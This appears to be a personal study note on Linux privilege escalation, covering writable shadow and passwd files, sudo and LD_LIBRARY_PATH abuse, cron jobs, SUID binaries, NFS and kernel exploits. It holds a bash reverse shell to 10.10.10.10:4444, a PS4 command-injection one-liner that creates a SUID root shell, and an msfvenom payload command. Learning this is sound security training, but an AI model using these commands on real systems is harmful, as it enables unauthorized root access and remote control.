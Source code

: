 ### Service Exploitation

>[!Scenario]
>We have a service running as a root and the root user for the service has no password assigned.  The service has a _User Defined function_ feature.  The service is _MySQL_


_approach..._
1. find for available exploit. [here](https://www.exploit-db.com/exploits/1518)
2. follow the procedure described on the exploit 
3. gain the root shell. 

>[! Takeaway]
> `UDFs` --) is essentially a set of instructions you create to perform a specific task within a program. Think of it as a mini-program you can write to avoid repeating the same code over and over.
> If we are allowed to log in as a `root` and create a service, let that service be moving the `/bin/bash` file with `SUID` permission to our accessible environment. Wollaa

_What is it about `/bin/bash` , tho?_

 - it is a symbolic link that points to the actual Bash executable on your system.


### Weak File Permission
#### Readable /etc/shadow

>[! Scenario]
> found a readable /etc/shadow file, where the password of users is stored, including of root. 

_What can we do to exploit this?_

- well, use copy the file to somewhere else and use `john` to crack it.


### Weak File Permissions - Writable /etc/shadow

>[! scenario] 
>The `/etc/shadow` file is not readable, but it's `world-writable` - anybody could write on it.

_Exploitation,..._
- well write on it
- replace the hashed pass of the root user with the new password hashed.  
- or create a new user with root privilege and sing in with it

### Writable /etc/passwd
_Exploitation_
- replace the `X` of password field of root user and save the system from checking from `/etc/shadow` 

### `Sudo` - Shell Escape Sequence 

To list list of programs that the `sudo` allows their user to run with elevated privilege  

```zsh
sudo -l
```

_Why do we care about these programs?_
There's something for us [here]([https://gtfobins.github.io](https://gtfobins.github.io/))

### `sudo` - Environment variables

the output of `sudo -l` also contains inherited environment variables,  

These variables might contain list of directories where shared libraries are searched for first

> while opening the `sudo` allowed programs set the environment variable to the directory where the malicious program is in. Remember to name the mal program with the name the program searches it to be.

_Example_
use..
```zsh
ldd /usr/sbin/apache2
```

to see shared libraries used by `apache2`

say you have `libcrypt.so.1`

now put the malicious file to `/tmp` folder with the name  `libcrypt.so.1` 

now open the apache2 program as follows 
```zsh
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs

- Cron table files (crontabs) store the configuration for cron jobs.
- The system-wide crontab is located at `/etc/crontab`.

>[! Scenario]
> while exploring `/etc/crontab` file you saw a script `overwrite.sh` that runs every 5 minutes. Further investigation of this file revealed that this file is world-writable 

_how to exploit this?_

- well it could be overwritten, therefore... find a good script that grants us a root shell
- how about this, 
```zsh
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
#### code breakdown
- `#!/bin/bash  ` shebang, specifies that the script should be interpreted by Bash shell `/bin/bash`
- `bash -i` starts new Bash shell session
- `>&` double greater than, for both standard output and standard error redirection
- `dev/tcp/10.10.10.10/4444 ` specifies target for redirection
- `0>&1` redirects file descriptor '0', which is input, is redirected to where previous stdout and stderr is redirected.  

the attacker shall listen to the upcoming connection by opening a port on his machine 
```zsh
nc -nvlp 4444
```

### SUID/ DGID Executable

to find SUID/SGID executable on Debian 
```zsh
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

then try to find exploitable file from those files
`or`
try to exploit though the shared object. The drill is to inject the malicious file for the shared object.

To see shared objects one can use `strace`

### SUID / SGID Executables - Abusing Shell Feature

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
```zsh
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

therefore now when we run a SUID program that uses `/usr/sbin/service` path, what actually executed is the function we defined. therefore, wuollaaa

Again in Bash versions <4.4, when in debugging mode Bash uses the environment variable `PS4` to display an extra prompt for debugging statements.
What if we try to insert a command when prompted, 
```zsh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

have a closer look on `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` part. 

now we can do `/tmp/rootbash -p` to get to `root`

### History file
the user(root) might have stroke the pass keys mistakenly, so taking a look doesn't hurt
```zsh
cat ~/.history | less
```

### Config file
another place to look for a password is `config files`

### SSH Keys
try to look at `ls -l /.ssh`, you might get unprotected key
for ssh to use it, do ``chmod 600 root_key``
then try to log in using this key 

```zsh
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP
```

### NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

take a look at `cat /etc/exports` for a mount point where `root-squashing` is disabled.

1. on attacker's machine `mkdir /tmp/nfs`
2. `mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs` -- assume `/tmp` is the no-root-squashing file
3. generate payload 
	``msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf``

4. ``chmod +xs /tmp/nfs/shell.elf``
5. Finally run the shared malicious file `shell.elf` on victim's machine `/tmp/shell.elf`

### Kernel Exploits
run `exploit suggerst` to find out available kernel vulnerabilities.

search for available exploit for the vulnerability found. 

> Dirty Cow - is a [computer security vulnerability](https://en.wikipedia.org/wiki/Computer_security_vulnerability "Computer security vulnerability") of the [Linux kernel](https://en.wikipedia.org/wiki/Linux_kernel "Linux kernel") that affected all Linux-based operating systems,
> It is a local [privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation "Privilege escalation") bug that exploits a [race condition](https://en.wikipedia.org/wiki/Race_condition "Race condition") in the implementation of the [copy-on-write](https://en.wikipedia.org/wiki/Copy-on-write "Copy-on-write") mechanism in the kernel's memory-management subsystem. [Further](https://en.wikipedia.org/wiki/Dirty_COW)

